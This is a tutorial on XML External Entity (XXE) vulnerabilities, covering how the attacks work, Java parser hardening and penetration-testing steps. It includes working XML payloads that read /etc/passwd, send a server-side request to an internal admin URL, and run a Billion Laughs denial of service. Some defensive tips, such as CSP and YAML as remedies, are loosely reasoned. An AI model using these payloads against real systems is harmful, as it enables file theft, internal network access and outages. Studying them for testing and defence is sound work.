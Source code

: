 ### **What is XML External Entity (XXE)?**

An **XML External Entity (XXE)** vulnerability occurs when an application parses XML input that includes references to external entities without proper validation or restriction. This can allow attackers to exploit the XML parser to access sensitive files, perform server-side request forgery (SSRF), or execute other malicious actions.

---

### **How Does XXE Work?**

XML allows the definition of **entities**—shortcuts for data that can include external references (e.g., files or URLs). If the XML parser is misconfigured or too permissive, an attacker can define malicious external entities in their XML input and cause the server to process them.

#### **Example of Malicious XML Input:**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <data>&xxe;</data>
</root>
```

- **What Happens:** The XML parser fetches the `/etc/passwd` file and substitutes its content where `&xxe;` is referenced, potentially exposing sensitive server information.

---

### **Vulnerabilities of XXE**

XXE vulnerabilities arise from:

1. **Improper Configuration of XML Parsers:**
    - Many XML parsers, by default, allow external entities or system-level resource access.
2. **Unvalidated XML Input:**
    - Applications that accept and process user-supplied XML without sanitizing or restricting it.

#### **Types of XXE Attacks:**

1. **File Disclosure:**
    
    - Reading sensitive files on the server, such as configuration files, logs, or environment variables.
    - Example: Fetching `/etc/passwd` on Unix-like systems.
2. **Server-Side Request Forgery (SSRF):**
    
    - Forcing the server to make HTTP requests to arbitrary domains.
    - Example: Using `http://` in the external entity to access internal services.
3. **Denial of Service (DoS):**
    
    - Overloading the parser using recursive or large entities, such as a **Billion Laughs Attack.**
    - Example:
        
        ```xml
        <!ENTITY lol "lol">
        <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;">
        <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;">
        ```
        
4. **Port Scanning and Network Enumeration:**
    
    - Using the server as a proxy to identify open ports or services in an internal network.
5. **Remote Code Execution (RCE):**
    
    - In rare cases, exploiting insecure external entities to execute arbitrary code.

---

### **Exploiting XXE**

Attackers exploit XXE vulnerabilities by injecting malicious XML into inputs processed by the server. Common exploitation scenarios include:

#### **1. File Disclosure**

- **Payload:**
    
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE foo [
      <!ENTITY xxe SYSTEM "file:///etc/passwd">
    ]>
    <root>
      <data>&xxe;</data>
    </root>
    ```
    
- **Result:** The server includes the content of `/etc/passwd` in its response.
    

#### **2. SSRF**

- **Payload:**
    
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE foo [
      <!ENTITY xxe SYSTEM "http://internal-service.local/admin">
    ]>
    <root>
      <data>&xxe;</data>
    </root>
    ```
    
- **Result:** The server makes an HTTP request to `http://internal-service.local/admin` and returns or processes the response.
    

#### **3. Billion Laughs (DoS)**

- **Payload:**
    
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE lolz [
      <!ENTITY lol "lol">
      <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;">
      <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;">
      <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;">
    ]>
    <root>
      <data>&lol4;</data>
    </root>
    ```
    
- **Result:** The XML parser consumes massive resources, potentially crashing the application.
    

---

### **Defending Against XXE**

To prevent XXE attacks, secure the XML parsing process as follows:

#### **1. Disable External Entity Processing:**

- Configure the XML parser to disable the loading of external entities.
- Example (Java):
    
    ```java
    DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
    factory.setFeature("http://xml.org/sax/features/external-general-entities", false);
    factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
    ```
    

#### **2. Use Modern Libraries:**

- Use libraries that do not support external entities or XML parsing by default, such as `JSON` or `YAML`.

#### **3. Validate Input:**

- Sanitize and validate user-supplied XML to ensure it does not contain malicious elements.

#### **4. Limit File/System Access:**

- Run applications with minimal privileges, limiting their ability to access sensitive files or networks.

#### **5. Use Static Analysis Tools:**

- Scan the codebase for unsafe XML parsing configurations.

#### **6. Enforce Content Security Policy (CSP):**

- Mitigate downstream risks of XXE through additional security layers, such as CSP for browser interactions.

---

### **Detecting and Exploiting XXE in Penetration Testing**

#### **Steps for Testing XXE Vulnerabilities:**

1. **Identify XML Inputs:**
    
    - Look for functionalities like file uploads, API endpoints, or SOAP services that process XML.
2. **Inject Payloads:**
    
    - Inject basic XXE payloads to test for file disclosure:
        
        ```xml
        <!ENTITY xxe SYSTEM "file:///etc/passwd">
        ```
        
3. **Check for SSRF:**
    
    - Test whether external entities allow the server to make network requests.
4. **Test for DoS:**
    
    - Inject recursive or large payloads to evaluate the application’s resilience to resource exhaustion.

#### **Tools for XXE Testing:**

- **Burp Suite:** Intercept and modify XML-based requests.
- **OWASP ZAP:** Automate XXE testing.
- **XXE Injection Payload List:** Use resources like payload lists from public repositories (e.g., OWASP Cheatsheet).

---

### **Conclusion**

**XML External Entity (XXE)** vulnerabilities can have severe consequences, including data breaches, server compromise, and denial of service. Ensuring that XML parsers are configured securely and testing for XXE during application development and penetration testing are essential steps in mitigating this risk. For modern applications, consider transitioning to safer data formats like JSON to further reduce exposure to XXE attacks.
